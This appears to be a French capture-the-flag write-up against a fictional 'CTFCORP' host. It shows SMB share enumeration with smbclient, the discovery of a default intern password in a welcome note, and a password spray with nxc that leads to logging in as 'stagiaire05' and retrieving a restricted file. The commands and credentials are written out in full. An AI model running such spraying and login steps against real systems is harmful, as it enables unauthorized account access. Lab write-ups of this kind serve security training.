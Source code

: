 ```
└─$ smbclient //51.89.228.14/Stagiaires -U 'gomme70565_404Player%<password>'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 13 05:13:53 2025
  ..                                  D        0  Tue May 13 05:13:53 2025
  .DS_Store                          AH     6148  Sun May 11 21:42:39 2025
  procedures_stages.txt               A      342  Sun May 11 00:00:34 2025
  trombinoscope.txt                   A      557  Sun May 11 00:00:34 2025

```
Impossible de récupérer procedures_stages.txt. Il faut être stagiaire.

En revanche, ce fichier peut être récupéré.

```
└─$ smbclient //51.89.228.14/Public -U 'gomme70565_404Player%<password>'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat May 10 00:04:16 2025
  ..                                  D        0  Sat May 10 00:04:16 2025
  notes_accueil.txt                   A      421  Sun May 11 00:00:34 2025

```
A l'intérieur du fichier, on trouve un mdp par défaut.

```
== NOTES D'ACCUEIL - CTFCORP ===

Bienvenue aux nouveaux arrivants !

Pour tous les stagiaires: 
- Un mot de passe par défaut vous a été attribué: Bienvenue2024!
- Vous devez le changer dès votre première connexion
- Consultez le trombinoscope sur le partage réseau "Stagiaires"
- Votre manager vous contactera dans les 24h

En cas de problème de connexion, contactez le support IT.

--
Équipe RH
CTFCORP

```
Le password spray peut fonctionner. 
```
nxc smb 51.89.228.14 -u users.txt -p 'Bienvenue2024!' --continue-on-success
```

Il se trouve que l'utilisateur stagiaire05 n'a pas changé son mdp. Il est alors possible de se connecter dessus et récupérer le document pour les stagiaires.
```
smbclient //51.89.228.14/Stagiaires -U stagiaire05
smb: \> procedures_stages.txt 
```
